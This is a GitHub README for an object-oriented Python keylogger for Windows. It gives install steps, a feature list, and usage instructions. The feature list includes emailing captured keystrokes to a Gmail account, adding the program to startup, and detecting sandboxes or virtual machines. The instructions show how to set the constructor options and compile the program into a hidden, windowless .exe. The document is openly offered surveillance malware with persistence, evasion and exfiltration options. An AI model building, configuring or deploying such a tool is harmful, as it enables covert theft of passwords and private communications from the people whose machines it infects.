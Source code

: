 # Python Keylogger

This program is an object oriented windows keylogger written in python3.

## Installation

This program requires:
* [Python3](https://www.python.org/downloads/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [Pynput](https://pypi.org/project/pynput/)
* [Pyinstaller](https://pypi.org/project/PyInstaller/)

1. Download the repository using github or git.
2. Install the modules above one by one or install them all at once by running `python -m pip install -r requirements.txt`

## Features
* Ability to send logs to any gmail account.
* Ability to store logs locally.
* Ability to add to startup.
* Ability to log special characters.
* Ability to capture window mouse clicks.
* Ability to check for sandboxie/virtual machine.
* And more...

## Usage

1. Open `src/main.py` in a text editor
2. Naviate to the main method:

```
if __name__ == "__main__":
    main = main(60, "c:/temp/log.txt")

    # main = main(180)
    # main = main(180, "", True, True, True, True)
    # main.override_gmail("email@gmail.com", "pass")

    main.start()
```

3. Modify the constructor arguments such as in the commented examples where arg1 is the time before exporting logs, arg2 is the path to export the logs to (if sending logs by email, set this to ""), and arg3-6 are bools for adding to startup, logging clicks, checking for virtual machine, and checking for sandboxie correspondingly.

4. Call `override_gmail()` with an gmail account and password as corresponding arguments if sending logs by email.

5. Save the file and run `pyinstaller main.py --onefile --windowed` to compile the python file as a single .exe.
